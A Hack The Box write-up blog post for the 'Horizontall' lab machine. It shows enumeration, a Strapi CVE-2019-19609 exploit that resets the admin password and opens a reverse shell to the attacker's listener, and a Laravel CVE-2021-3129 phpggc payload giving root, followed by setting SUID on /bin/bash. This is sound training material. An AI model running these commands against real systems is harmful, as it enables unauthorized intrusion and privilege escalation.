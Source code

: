 ```yaml
---
layout: post
title: "HTB: Horizontall"
author: Andrew Cherney
date: 2023-02-17 19:55:05
tags: htb easy-box linux webapp cve
icon: "assets/icons/horizontall.png"
post_description: "This box is a great example of how much information can be leaked by basic scripts and services. A javascript file leaks a subdomain with an api, and then the login portal leaks the vulnerable version of strapi being run. To gain root there is a somewhat clever way of ssh tunneling to manipulate a vulnerable local service on the box."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nmap -sC 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 20:26 CST
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http
|_http-title: horizontall
```

<h2>Port 80 - HTTP</h2>

{% include img_link src="/img/horizontall/front_page" alt="front_page" ext="png" trunc=500 %}

In looking around the javascript file **app.c68eb462.js** I find a reference to **http://api-prod.horizontall.htb/reviews** and I can now add <code>10.10.11.105 api-prod.horizontall.htb horizontall.htb</code> to my **/etc/hosts** file.

<h2>api-prod</h2>

{% include img_link src="/img/horizontall/api-prod_front" alt="front_page" ext="png" trunc=100 %}

![api-prod reviews](/img/horizontall/Horizontall_json_reviews.png)

There seems to be some uploaded json for reviews of a service/product here. I'll toss out a dirb to find anything else on this subdomain.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $dirb http://api-prod.horizontall.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 18 11:18:40 2023
URL_BASE: http://api-prod.horizontall.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://api-prod.horizontall.htb/ ----
+ http://api-prod.horizontall.htb/admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/Admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/ADMIN (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/favicon.ico (CODE:200|SIZE:1150)                            
+ http://api-prod.horizontall.htb/index.html (CODE:200|SIZE:413)                              
+ http://api-prod.horizontall.htb/reviews (CODE:200|SIZE:507)                                 
+ http://api-prod.horizontall.htb/robots.txt (CODE:200|SIZE:121)                              
+ http://api-prod.horizontall.htb/users (CODE:403|SIZE:60)  
```

<h1>User as strapi</h1>

<h2>CVE-2019-19609</h2>

Heading to that admin portal I am met with a strapi login screen. When searching for vulnerabilities on exploit-db the only versions with known exploits are **3.0.0-beta.17.4 and 3.0.0-beta.17.7** so I get to trying to find the strapi verison. 

![strapi version](/img/horizontall/Horizontall_version_strapi.png)

Bingo, we're on **beta.17.4** which means [this unauthenticated RCE](https://www.exploit-db.com/exploits/50239) should let me get a shell as www-data. In reading through the exploit it seems I could have gone to **http://api-prod.horizontall.htb/admin/init** to find out the strapi version. 

Unfortunately this exploit doesn't seem to give me RCE. On the up side it did reset the password of admin to **SuperStrongPassword1** and when I log in it gives me a jwt of:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY
```

Now in searching for other exploits I came across [this exploit using a jwt for RCE](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT/blob/main/exploit.py). At the endpoint /admin/plugins/install there is a way to pipe commands through and bypass traditional authentication methods.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 strapi_jwt_exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY -l 10.10.14.14 -p 7777
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 7777 to get a reverse shell
[+] Sending payload... Check if you got shell
[+] Payload sent. 
```

```
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45220
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<h1>Root</h1>

<h2>Laravel</h2>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45232
/bin/sh: 0: can't access tty; job control turned off
$ netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1862/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -             
```

I found that there is a service running on port 8000 of localhost. In curling that service I find out that it is Laravel v8 (PHP v7.4.18). In a cursory search of exploits I find [this CVE-2021-3129 exploit for versions <=8.4.2](https://github.com/ambionics/laravel-exploits). I'll set up an ssh key for the user strapi and use ssh tunneling to run exploits against this localhost service from my host machine. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $ssh strapi@10.10.11.105 -i key -L 8000:localhost:8000
```

I can then execute the payload towards my localhost:8000 and it will target the laravel service on the box. Then I can clone the phpggc repo and run the laravel exploit after generating my payload.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system id
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $cd ..
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 laravel_exploit.py http://localhost:8000/ phpggc/shell.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Well that is awfully convenient that laravel is running as root. Since this exploit is RCE I can have it change /bin/bash to be an SUID and get root. 

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system "chmod u+s /bin/bash"
```

```bash
$ /bin/bash -p
bash-4.4# cat /root/root.txt
b83c0d741c44ab-----------------
```

